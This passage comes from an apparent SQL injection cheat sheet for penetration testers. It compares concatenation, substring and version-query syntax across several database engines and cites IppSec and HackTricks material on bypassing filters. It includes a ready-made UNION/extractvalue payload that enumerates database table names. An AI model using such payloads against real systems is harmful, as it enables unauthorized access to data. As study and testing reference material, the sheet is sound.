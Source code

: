 ### String concatenation

```sql
# Oracle
'foo'||'bar'

# MSSQL
'foo'+'bar'

# PostgreSQL
'foo'||'bar'

# MySQL
'foo' 'bar' [Note the space between the two strings]  
CONCAT('foo','bar', ...)
```

### Substring

```sql
# Oracle
SUBSTR('foobar', 4, 2)

# MSSQL
SUBSTRING('foobar', 4, 2)

# PostgreSQL
SUBSTRING('foobar', 4, 2)

# MySQL
SUBSTRING('foobar', 4, 2)
```

### Extract multiple rows on one column

```sql
UNION select 1, extractvalue(0x0a,concat(0x0a,(SELECT group_concat(table_name) FROM information_schema.tables)))-- -#
```

### Database version

```sql
# Oracle
SELECT banner FROM v$version  
SELECT version FROM v$instance  

# MSSQL
SELECT @@version

# PostgreSQL
SELECT version()

# MySQL
SELECT @@version

# SQLite
select sqlite_version();
```


[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec
[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec